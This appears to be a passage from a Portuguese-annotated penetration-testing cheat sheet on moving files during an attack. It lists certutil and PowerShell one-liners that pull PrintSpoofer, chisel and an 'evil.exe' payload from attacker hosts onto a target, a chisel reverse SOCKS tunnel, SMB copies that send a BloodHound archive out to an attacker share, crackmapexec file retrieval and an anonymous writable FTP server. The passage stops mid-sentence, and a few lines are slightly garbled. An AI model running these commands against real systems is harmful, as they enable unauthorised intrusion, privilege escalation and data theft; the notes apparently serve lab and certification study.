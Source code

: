     certutil -urlcache -split -f "http://192.168.49.120:8000/PrintSpoofer64.exe" ps64.exe
    certutil -urlcache -split -f "http://192.168.49.120:8000/chisel.exe" chisel.exe
    .]chisel.exe client 13.37.13.37:3477 R:5000:socks
### powershell

    powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
    
    powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'C:/temp/new-exploit.exe')

    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
    

### Bash

    wget -r --no-parent http://10.10.14.2/folder  
    wget http://10.10.14.2/folder/file.pdf 

## SMB

    cp \\192.168.0.253\share\vulns.csv vulns.csv
    
    copy \\192.168.119.181\smb\PrintSpoofer64.exe ps.exe

 OBS: não esquecer de colcoar a flag "smb2support" no comando
 
     impacket-smbserver -smb2support share .



    cp 20220915120636_BloodHound.zip \\test: 192.168.49.120\smb\20220915120636_BloodHound.zip

### Crackmapexec

    #~ crackmapexec smb 172.16.251.152 -u user -p pass --get-file  \\Windows\\Temp\\whoami.txt /tmp/whoami.txt


# Uploading

## FTP

Aopção mais fácil é por meio do python:

    python -m pyftpdlib --port=21 --write
    #ou
    python -m pyftpdlib --directory=FTP --port=2121 --write

    anonymous
    anonymous

Existe a possibilidade de fazer upload de arquivos com Windows por meio do FTP também da seguinte forma:
